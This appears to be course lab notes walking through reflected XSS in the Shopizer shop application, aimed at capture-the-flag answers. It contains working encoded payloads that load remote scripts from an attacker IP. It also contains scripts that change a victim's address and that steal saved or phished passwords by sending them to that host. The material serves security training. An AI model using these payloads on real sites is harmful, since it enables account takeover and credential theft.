



# **5.2. Case Study: Shopizer Reflected XSS**

## **Discovering the Vulnerability**
Go to Products > Handbags 
Find the injection point: `http://shopizer:8080/shop/category/handbags.html/ref=c:2`  

If we modify this value of 'ref' parameter in the URL then the application writes that value into the JavaScript code, so we will try inject a JavaScript xss payload.  

Try with payload: `c:2';alert(1);'canary` but it did not give us a alert box because some application servers and firewalls block a semicolon in a URL.

Let's try using plus signs instead of semicolons: `c:2'+alert(1)+'canary` which worked.  

### **Lab**
Retrieve the flag by referring above steps.
Flag: `OS{OtherPeoplesMoney}`

## **Loading Remote Scripts**
The Shopizer application loads several jQuery files, so we can try jQuery.getScript() function to load and execute a remote JavaScript file. Since the application doesn't process special characters, so we'll Base64 encode the core of the payload and then include the atob() function to decode it.

Create remote xss payload:  
xss_payload.js
`alert('It worked!')`   

`jQuery.getScript('http://192.168.45.244:80/xss_payload.js')`   
Base-64 encoded: `alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTEveHNzLmpzJyk=`

Payload including single quotes and plus signs is: `'+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0OjgwL3hzc19wYXlsb2FkLmpzJyk='))+'`

But it gave this error - Error [object Object]-error-   
We'll find the server informing us of an "Invalid character found in the request target". This is most likely because of the value returned by the getScript() function. We can fix this by Base64-encoding the entire response using the btoa() function. We'll have to wrap the entire eval() in this function.   

Payload: `'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0OjgwL3hzc19wYXlsb2FkLmpzJyk=')))+'`     



## **Exploiting Reflected XSS**
The application uses a JSESSIONID cookie with the HttpOnly attribute to manage user sessions. Since HttpOnly prevents JavaScript access, XSS attacks cannot steal this cookie.  
So explore the available options as an authenticated user.  
Welcome > My Account > Billing & shipping information > Add a new address   
Also now send the request to Burp Suite repeater to test if this request still works without any value for customerId paramter. ANd now you can see without customerId, we are able to update the address.  

   

Our next step is to craft a JavaScript payload to send a similar request. We'll use the fetch() function and trick user to go to the crafted payload url so the address of the user will be updated without his knowledge.  

Create remote xss payload:  xss_payload.js  
```
fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
    method: 'POST',
    mode: 'same-origin',
    credentials: 'same-origin',
    headers: {
      'Content-Type':'application/x-www-form-urlencoded'
    },
	body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
})
```  

Execute it by calling this remote script:   


Payload: `'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0OjgwL3hzc19hZGRyZXNzX3VwZGF0ZS5qcycp')))+'`  

We find the address has been changed to the one in our payload.

    

### **Lab**
Change the payload and extract the user's password. This can be done with either the "Blindly enter credentials" or "Use stored password" setting on the XSS Sandbox.

### Exploit using 'Use stored password':  
Go to Products > Handbags   
Find the injection point: http://xss-sandbox/challenge/shopizer   

- Craft our remote script in xss_steal_saved_password.js file and host it on port 80.
```
let body = document.getElementsByTagName("body")[0]

var usernameInput = document.createElement('input');
usernameInput.type = 'text';
usernameInput.className = 'form-control';
usernameInput.id = 'signin_userName';
usernameInput.name = 'signin_userName';

var passwordInput = document.createElement('input');
passwordInput.type = 'password';
passwordInput.className = 'form-control';
passwordInput.id = 'signin_password';
passwordInput.name = 'signin_password';

body.append(usernameInput)
body.append(passwordInput)

setTimeout(function(){ 
  fetch("http://192.168.45.244:80/k?username=" + usernameInput.value + "&password=" + passwordInput.value)
}, 5000);
```

- Craft our payload to execute the remote script so we can steal the username and password

`jQuery.getScript('http://192.168.45.244/xss_steal_saved_password.js')`    
Base64 Encoded: `alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0L3hzc19zdGVhbF9zYXZlZF9wYXNzd29yZC5qcycp`

Final Payload:
```
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0L3hzc19zdGVhbF9zYXZlZF9wYXNzd29yZC5qcycp')))+'
```

- Enter payload
  

- Exfiltrate_stored_crdentials
  

- Flag: `ALERT!howDidYouGetThis?`


### Exploit using 'Blindly enter credentials':  
Go to Products > Handbags   
Find the injection point: http://xss-sandbox/challenge/shopizer   

- Craft our remote script in xss_phishing_login_form.js file and host it on port 80.
```
document.getElementsByTagName("html")[0].innerHTML = `
  <html>
    <body>
      <h2>Please log in</h2>
      <form action="http://192.168.45.244:80" method="GET">
        <label>Username: <input type="text" name="username" /></label><br/>
        <label>Password: <input type="password" name="password" /></label><br/>
        <input type="submit" value="Login" />
      </form>
    </body>
  </html>
`;
```

- Craft our payload to execute the remote script so we can steal the username and password

`jQuery.getScript('http://192.168.45.244/xss_phishing_login_form.js')`    
Base64 Encoded: `alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0L3hzc19waGlzaGluZ19sb2dpbl9mb3JtLmpzJyk=`

Final Payload:
```
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjQ0L3hzc19waGlzaGluZ19sb2dpbl9mb3JtLmpzJyk=')))+'
```

- Enter payload
  

- Exfiltrate_stored_crdentials
  

- Flag: `ALERT!howDidYouGetThis?`